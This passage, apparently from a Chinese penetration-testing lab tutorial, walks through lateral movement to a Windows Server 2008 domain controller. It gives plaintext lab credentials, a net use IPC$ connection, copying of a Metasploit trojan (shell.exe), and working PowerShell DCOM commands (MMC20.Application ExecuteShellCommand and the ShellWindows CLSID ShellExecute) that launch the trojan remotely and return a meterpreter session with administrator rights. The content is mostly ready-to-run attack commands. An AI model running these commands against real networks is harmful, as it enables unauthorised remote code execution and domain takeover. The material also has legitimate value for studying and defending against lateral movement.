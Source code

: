*   用户名Aministrator
    
*   密码：
    
    Liufupeng123
    

域控制器DC（Windows server 2008）：

*   IP地址：
    
    192.168.52.138
    
*   用户名Liukaifeng01
    
*   密码：
    
    Liufupeng123
    

**1. 先让跳板机Windows 7通过ipc连接远程DC计算机**

net use \192.168.52.138\ipc$ “Liufupeng123” /user:Liukaifeng01

**2. 然后在Windows7跳板机上传metasploit木马程序shell.exe，并使用copy命令将shell.exe复制到DC的c盘上面去。**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**3. 然后对DC执行远程命令**

（1）调用MMC20.Application远程执行命令

建立ipc连接并上传木马后，在Windows7的powershell中输入如下命令，在远程系统中运行metasploit木马程序shell.exe：

$com = [activator]::CreateInstance([type]::GetTypeFromProgID(“MMC20.Application”,”192.168.52.138”))

// 通过PowerShell与DCOM进行远程交互，此外，我们只需要提供一个DCOM ProgID和一个IP地址，然后，它就从远程返回一个COM对象的实例。

// 然后执行如下命令，我们就可以调用”ExecuteShellCommand”方法在远程主机上启动进程

$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c c:\shell.exe","Minimized")

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

执行后，我们可以看到攻击者msfconsole成功传来了DC的meterpreter，并且权限为administrator：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

（2）调用9BA05972-F6A8-11CF-A442-00A0C90A8F39

建立ipc连接并上传木马后，在Windows7的powershell中输入如下命令，在远程系统中运行metasploit木马程序shell.exe：

```


```
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.52.138")$obj = [System.Activator]::CreateInstance($com)$item = $obj.item()$item.Document.Application.ShellExecute("cmd.exe","/c c:\shell.exe","c:\windows\system32",$null,0)
```




```
